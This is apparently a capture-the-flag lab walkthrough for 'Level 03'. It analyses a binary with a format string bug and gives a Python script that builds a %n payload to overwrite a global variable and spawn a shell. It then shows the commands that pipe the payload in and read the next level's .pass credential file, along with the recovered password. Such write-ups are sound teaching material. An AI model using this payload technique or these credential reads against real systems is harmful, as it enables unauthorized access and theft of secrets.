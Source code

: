 # Level 03 Walkthrough

## Binary analysis

The binary is vulnerable to a format string attack. The global variable `m` (address: 0x0804988c) must be set to 0x40 to trigger the call to `system("/bin/sh")`.

Relevant code:
```
080484c7        char buffer[0x208]
080484c7        fgets(buf: &buffer, n: 0x200, fp: stdin)
080484d5        printf(format: &buffer)
080484da        uint32_t m_1 = m
080484e2        if (m_1 != 0x40)
08048519            return m_1
08048507        fwrite(buf: "Wait what?!\n", size: 1, count: 0xc, fp: stdout)
08048513        return system(line: "/bin/sh")
```

## Exploitation

We use a format string payload to write 0x40 into the global variable `m`.

Python script to generate the payload:
```python
import struct
m_addr = 0x0804988c
offset = 4
payload = struct.pack("<I", m_addr)
payload += b"%60x"
payload += f"%{offset}$n".encode('ascii')
with open('payload.txt', 'wb') as f:
    f.write(payload)
```

## Commands used

```
cat /tmp/payload.txt - | ./level3
ls
cat /home/user/level4/.pass
```

## Result

After running the exploit, we get a shell as level4 and can read the password:

```
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

